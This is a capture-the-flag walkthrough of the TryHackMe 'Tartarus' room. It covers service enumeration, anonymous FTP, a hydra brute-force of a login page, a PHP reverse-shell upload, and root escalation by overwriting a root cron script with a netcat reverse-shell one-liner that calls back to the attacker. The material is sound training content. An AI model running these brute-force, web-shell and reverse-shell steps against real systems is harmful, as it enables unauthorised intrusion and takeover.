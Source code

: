# Tartarus

[<img src=".Images/tartarus.png" height="199">](https://tryhackme.com/room/tartaraus)

*"This is a beginner box based on simple enumeration of services and basic privilege escalation techniques."* -[csenox](https://tryhackme.com/p/csenox)

1. [Scan/Enumeration](#scan/enumeration)
2. [Gain Shell](#gain-shell)
3. [Privilege Escalation](#privilege-escalation)

******

## [Scan/Enumeration]

We can start by doing an nmap scan.

`nmap -A -oN tartarus.nmap <ip>`

![tartarus-1](.Images/tartarus-1.png)

We have an FTP on port 21, SSH service on port 22 and Apache web server on port 80. The results say "Anonymous FTP login allowed". Let's connect to FTP anonymously. We can download the files with the get command.
User: anonymous
Pass: blank

`ftp <ip>`

![tartarus-2](.Images/tartarus-2.png)

We found a file named test.txt. We can try to navigate inside the shared directory on FTP.

`cd ..`
`cd ...`

![tartarus-3](.Images/tartarus-3.png)

We found another file called yougotgoodeyes.txt. Let's check these files.

![tartarus-4](.Images/tartarus-4.png)

/sUp3r-s3cr3t should be a website directory. Now we can start checking the website. If we look at the /sUp3r-s3cr3t directory, we can see that there is a login page. We can try bruteforce here, but first, let's try looking at the robots.txt file.

![tartarus-5](.Images/tartarus-5.png)

We found /admin-dir directory.

![tartarus-6](.Images/tartarus-6.png)

Let's download credentials.txt and userid file. The credentials.txt file looks like a password list and the userid file looks like a list of usernames. We can use these files to bruteforce the login page. We will use the hydra tool for bruteforce.

First we need to find out what kind of request we sent. We can go to the / sUp3r-s3cr3t directory, open the Inspect Element section and go to the Network section. Now we can try to login with random credentials. After doing this, we will see a POST request in the Network section. We can right click on this request and click Edit and Resend. Here, the Request Body field at the bottom right of the screen gives the information we need. [These are valid for firefox.](https://bentrobotlabs.wordpress.com/2018/04/02/web-site-login-brute-forcing-with-hydra/)

`hydra -L userid -P credentials.txt <IP> http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:F=Incorrect"`

![tartarus-7](.Images/tartarus-7.png)

******

## [Gain Shell]

We can now login to the site using this information.

![tartarus-8](.Images/tartarus-8.png)

Here is a page where we can upload files. We can try upload [php_reverse_shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). We can download the file and upload it after we write our own IP and port(49th and 50th lines). 

![tartarus-9](.Images/tartarus-9.png)

We uploaded the file. We need to run the file to get a shell. To run the file, we need to find where it is. We will do directory scan with gobuster to find it. I will use [common.txt](https://github.com/v0re/dirb/blob/master/wordlists/common.txt) list.

`gobuster dir -u http://<IP>/sUp3r-s3cr3t/ -w common.txt`

![tartarus-10](.Images/tartarus-10.png)

If we look at the images directory, we will see that there is a directory named uploads in it.

![tartarus-11](.Images/tartarus-11.png)

We will find the file we uploaded in it.

![tartarus-12](.Images/tartarus-12.png)

If we run the file while listening to the port with nc, we will get a shell.

`nc -nvlp <PORT>`

![tartarus-13](.Images/tartarus-13.png)

******

## [Privilege Escalation]

First of all, let's make shell more beautiful.

`export TERM=xterm`

`python -c 'import pty; pty.spawn("/bin/bash")'`

![tartarus-14](.Images/tartarus-14.png)

If we look at the /etc/crontab file, we will see that the file named cleanup.py runs periodically by using root privileges.

![tartarus-15](.Images/tartarus-15.png)

Let's look inside the file named cleanup.py.

![tartarus-16](.Images/tartarus-16.png)

The file regularly cleans the /home/cleanup/ directory. When we look at the file with the "ls -la" command, we see that we have write authority. So if we change the file with a reverse shell and wait a bit, we can get a shell with root privilege. I will write python reverse shell into the file with the echo command.

`echo 'import os; os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT>  >/tmp/f")' > cleanup.py`

![tartarus-17](.Images/tartarus-17.png)

Now we need to listen to the port with nc and wait. When the file runs again, we will get a shell with root privilege.

![tartarus-18](.Images/tartarus-18.png)

And now we are root user.
